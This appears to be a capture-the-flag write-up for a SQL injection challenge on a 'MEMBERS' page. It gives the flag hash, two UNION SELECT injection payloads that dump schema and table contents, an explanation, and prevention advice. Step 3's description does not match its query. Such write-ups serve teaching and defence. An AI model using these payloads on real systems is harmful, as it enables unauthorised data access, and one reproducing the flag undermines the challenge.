 # Sql Injection

## Flag

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Discovery and Exploitation

1. Navigate to the **MEMBERS** page.
2. To list all tables in the database, insert the following SQL query:
   ```sql
   true UNION SELECT table_name, column_name FROM information_schema.columns
   ```
3. To list all columns in the `users` table, insert the following SQL query:
   ```sql
   true UNION SELECT id, CONCAT(url, comment) FROM list_images
   ```
   > **Note:** The `CONCAT` function is used because there is a restriction that only two columns can be retrieved.
4. Follow the instructions for the image with url 5 to obtain the flag.

## Why it works

SQL injection works by manipulating the SQL query that is executed by the application. By inserting specially crafted input, an attacker can alter the query's logic, allowing them to access or manipulate data they shouldn't be able to. In this case, the `UNION` operator is used to combine the results of the original query with the results of a malicious query, effectively bypassing the application's intended behavior and exposing sensitive information.

## Prevention

To prevent SQL injection attacks, consider the following measures:

1. **Use Prepared Statements**: Prepared statements ensure that user input is treated as data and not executable code.
2. **Parameterized Queries**: Always use parameterized queries to separate SQL code from data.
3. **Input Validation**: Validate and sanitize all user inputs to ensure they conform to expected formats.
4. **Least Privilege Principle**: Limit database user permissions to only what is necessary for the application to function.
5. **Regular Security Audits**: Conduct regular security audits and code reviews to identify and fix vulnerabilities.
6. **Use ORM Frameworks**: Use Object-Relational Mapping (ORM) frameworks that provide built-in protection against SQL injection.
7. **Web Application Firewalls (WAF)**: Implement WAFs to detect and block SQL injection attempts.

By following these best practices, you can significantly reduce the risk of SQL injection attacks on your application.
